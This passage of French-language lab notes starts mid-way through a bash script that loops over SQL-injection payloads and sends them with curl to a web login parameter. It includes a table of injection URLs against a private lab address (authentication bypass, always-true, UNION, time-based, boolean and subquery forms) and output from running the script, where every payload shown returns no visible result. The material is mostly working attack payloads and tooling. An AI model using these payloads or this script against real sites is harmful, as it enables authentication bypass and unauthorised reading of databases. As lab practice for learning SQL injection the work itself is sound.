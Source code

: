 ```bash
    echo "[+] URL : $TARGET?username=$encoded_payload"

    # Envoi de la requête HTTP
    curl -s "$TARGET?username=$encoded_payload" | grep -iE "ID|Username|Utilisateur|user" || echo "[-] Aucun résultat visible."
done

echo -e "\n[*] Fini."


```

Installer dépendances : 
**`sudo apt install jq bc`**


| Type d'attaque              | Exemple d'URL                                                                                                      | Effet                                     |
| --------------------------- | ------------------------------------------------------------------------------------------------------------------ | ----------------------------------------- |
| **Bypass Authentification** | `http://192.168.160.130:8083/index.php?username=admin'--`                                                          | Ignore mot de passe                       |
| **Always True**             | `http://192.168.160.130:8083/index.php?username=admin' OR 1=1 --`                                                  | Retourne tous les utilisateurs            |
| **Time-Based**              | `http://192.168.160.130:8083/index.php?username=admin' AND SLEEP(5) --`                                            | Injection temporelle                      |
| **Union-Based**             | `http://192.168.160.130:8083/index.php?username=admin' UNION SELECT 1,2,3 --`                                      | Injection UNION pour lire d'autres tables |
| **Error-Based**             | `http://192.168.160.130:8083/index.php?username=admin' AND (SELECT 1 FROM (SELECT SLEEP(5))a) --`                  | Détecte erreurs SQL visibles              |
| **Boolean-Based**           | `http://192.168.160.130:8083/index.php?username=admin' AND 1=2 --`                                                 | Injection basée sur vrai/faux             |
| **Subquery Injection**      | `http://192.168.160.130:8083/index.php?username=admin' OR (SELECT COUNT(*) FROM information_schema.tables) > 0 --` | Récupération d'infos internes             |
 Ce qui donne les résultats : 
```bash
└─$ ./attck.sh 
[*] Démarrage du test d'injections SQL...

[+] Test du payload : admin' OR 1=1 --
[+] URL : http://192.168.160.130:8083/index.php?username=admin%27%20OR%201%3D1%20--
[-] Aucun résultat visible.

[+] Test du payload : admin'--
[+] URL : http://192.168.160.130:8083/index.php?username=admin%27--
[-] Aucun résultat visible.

[+] Test du payload : ' OR '1'='1' --
[+] URL : http://192.168.160.130:8083/index.php?username=%27%20OR%20%271%27%3D%271%27%20--
[-] Aucun résultat visible.

[+] Test du payload : admin' UNION SELECT 1,2,3 --
[+] URL : http://192.168.160.130:8083/index.php?username=admin%27%20UNION%20SELECT%201%2C2%2C3%20--
[-] Aucun résultat visible.

[+] Test du payload : admin' AND SLEEP(5) --
[+] URL : http://192.168.160.130:8083/index.php?username=admin%27%20AND%20SLEEP%285%29%20--
[-] Aucun résultat visible.

[+] Test du payload : ' OR EXISTS(SELECT * FROM users) --
[+] URL : http://192.168.160.130:8083/index.php?username=%27%20OR%20EXISTS%28SELECT%20%2A%20FROM%20users%29%20--
[-] Aucun résultat visible.

[+] Test du payload : admin' OR '1'='1' #
[+] URL : http://192.168.160.130:8083/index.php?username=admin%27%20OR%20%271%27%3D%271%27%20%23
```